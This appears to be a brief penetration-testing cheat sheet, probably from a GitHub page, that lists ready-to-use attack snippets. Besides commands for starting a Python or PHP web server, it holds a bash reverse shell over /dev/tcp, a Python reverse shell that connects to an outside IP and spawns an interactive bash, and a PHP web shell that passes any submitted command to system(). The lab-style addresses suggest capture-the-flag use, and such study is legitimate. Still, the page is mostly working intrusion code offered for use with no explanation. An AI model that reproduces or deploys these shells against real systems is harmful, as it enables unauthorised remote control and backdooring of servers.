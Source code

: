 Open WebServer [Python]
```bash
python3 -m http.server <port>
```

Open WebServer [PHP]
```bash
php -S 0.0.0.0:<port>
```

Bash
```bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.44/443 0>&1'
```

Python But Bash
```sh
#!/usr/bin/python3
import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.56",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("bash")
```


Web Shell
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

